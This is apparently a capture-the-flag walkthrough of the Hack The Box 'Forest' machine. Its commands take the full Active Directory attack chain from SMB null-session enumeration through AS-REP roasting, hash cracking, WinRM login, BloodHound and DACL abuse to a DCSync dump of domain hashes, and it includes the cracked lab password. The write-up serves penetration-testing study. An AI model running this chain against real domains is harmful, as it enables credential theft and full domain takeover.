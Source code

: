 # Forest

## NMAP

* Rustscan Results

```console
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49671/tcp open  unknown          syn-ack ttl 127
49676/tcp open  unknown          syn-ack ttl 127
49677/tcp open  unknown          syn-ack ttl 127
49681/tcp open  unknown          syn-ack ttl 127
49698/tcp open  unknown          syn-ack ttl 127
```

## SMB

* Either `enum4linux-ng` or `nxc` can fetch the users via the null session on the smb.

```bash
nxc smb $IP -u '' -p '' --users
```

* we can check if any of these users are `AS-REP` roastable

```bash
impacket-GetNPUsers -dc-ip $IP htb.local/ -no-pass -usersfile users.txt
```

![GetNPUsers](/HTB/Machines/images/Forest-GetNPUsers.png)

## Hash Cracking

* cracking the `AS-REP` hash via hashcat

```bash
hashcat -a 0 -m 18200 svc_alfresco_hash /usr/share/wordlists/rockyou.txt
```

![Hash](/HTB/Machines/images/Forest-Hash.png)

## Evil-Winrm

* We can check if the user has winrm access via `nxc` again

```bash
nxc winrm htb.local -u 'svc-alfresco' -p 's3rvice'
```

* we can login as `svc-alfresco` and read the `User` flag

![Hash](/HTB/Machines/images/Forest-User.png)

## Bloodhound

* we can enumerate the domain via `bloodhound`

```bash
bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d 'htb.local' -dc 'forest.htb.local' -ns $IP  -c all --zip
```

![Bloodhound](/HTB/Machines/images/Forest-Bloodhound.png)

## DACL Abuse

* Bloodhound suggests that we can leverage `svc-alfresco` as the owner of `EXCHANGE WINDOWS PERMISSIONS`  

```bash
bloodyAD --host $IP -d forest.local -u svc-alfresco -p s3rvice add groupMember 'EXCHANGE WINDOWS PERMISSIONS' svc-alfresco

bloodyAD --host $IP -d forest.local -u svc-alfresco -p s3rvice set owner 'EXCHANGE WINDOWS PERMISSIONS' svc-alfresco
```

## DCSync

* Upon updating the permissions and roles for the user `svc-alfresco` we can `DCSync` to dump the hashes on the DC

```bash
bloodyAD --host $IP -d forest.local -u svc-alfresco -p s3rvice add dcsync svc-alfresco

nxc smb $IP -u 'svc-alfresco' -p 's3rvice' --ntds -user Administrator
```

![forest-root](./images/Forest-DC.png)

![forest-root](./images/Forest-Root.png)
